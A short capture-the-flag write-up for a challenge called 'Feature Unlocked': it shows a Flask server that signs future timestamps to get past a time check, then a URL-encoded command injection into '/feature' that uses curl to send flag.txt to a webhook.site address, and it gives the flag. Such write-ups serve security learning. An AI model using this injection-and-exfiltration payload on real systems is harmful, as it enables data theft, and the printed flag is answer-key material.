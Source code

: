 # Feature Unlocked

Solved by **vicevirus**

## Question
The world's coolest app has a brand new feature! Too bad it's not released until after the CTF..


## Solution
Create a `server.py` at hosted at our server.

```
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    # Set the time to 7 days from now
    future_time = int(time.time()) + 7 * 24 * 60 * 60
    date = str(future_time)

    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1338)
```

Then perform the command injection at ``/feature`
```
text=%3bcurl%20--data-binary%20%22%40flag.txt%22%20%22https%3a%2f%2fwebhook.site%2fb5bcfc27-9cc3-47b8-9d84-c3094cccf287%2f%22
```

### Flag
`CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`
